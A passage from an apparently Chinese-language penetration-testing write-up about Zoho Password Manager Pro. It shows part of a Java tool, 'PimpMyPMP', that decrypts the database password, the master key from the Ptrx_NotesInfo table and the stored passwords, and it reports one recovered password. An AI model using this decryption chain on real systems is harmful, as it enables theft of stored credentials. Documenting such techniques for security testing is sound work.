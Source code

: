 ```java
        }
        throw new Exception("Password should not be Null");
    }

    public String decryptPassword(String encryptedPassword, String key) throws Exception {
        String decryptedPassword = null;
        if (encryptedPassword == null || "".equals(encryptedPassword)) {
            return encryptedPassword;
        }
        try {
            byte[] encPwdArr = Base64.getDecoder().decode(encryptedPassword);
            decryptedPassword = this.decrypt(encPwdArr, key);
        } catch (Exception ex) {
            ex.printStackTrace();
        }
        return decryptedPassword;
    }

    public static void main(String[] args) {
        PimpMyPMP klass = new PimpMyPMP();
        try {
            // database_params.conf
            String database_password = "";
            System.out.print("Database Key: ");
            System.out.println(klass.decryptDBPassword(database_password));

            // pmp_key.key
            String pmp_password = "";

            // select notesdescription from Ptrx_NotesInfo
            String notesdescription = "";
            System.out.print("MASTER Key: ");
            System.out.println(klass.decryptPassword(notesdescription, pmp_password));

            // decryptschar(column, master_key)
            String passwd = "";
            System.out.print("Passwd: ");
            System.out.println(klass.decryptPassword(passwd, pmp_password));

        } catch (Exception e) {
            System.out.println("Fail!");
        }
    }
}
```

填入加密的数据库密码，查看结果

![Untitled](../../img/zoho-case/Untitled%2015.png)

可以看到密码为:sC1ekMrant
